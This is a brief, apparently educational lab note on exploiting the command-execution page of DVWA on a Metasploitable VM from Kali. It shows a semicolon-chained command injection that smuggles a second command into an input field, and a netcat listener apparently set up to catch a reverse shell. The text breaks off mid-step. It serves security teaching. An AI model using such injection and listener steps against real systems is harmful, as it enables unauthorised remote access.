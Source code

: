 - When you open the DVWA in your kali bowser with the IP of your metasploitable, go to the code execution section.
- We can execute commands one after another in one go like this : 
```
ping 192.168.14.5 -c 5 ; echo"Hello World"
```
- We can use ; this to give multiple commands at once and they will all execute one by one and there's a way to exploit the code execution section of the DVWA using this method.
- Open command prompt 
```
netcat -lvnp 2345
```
- Search for 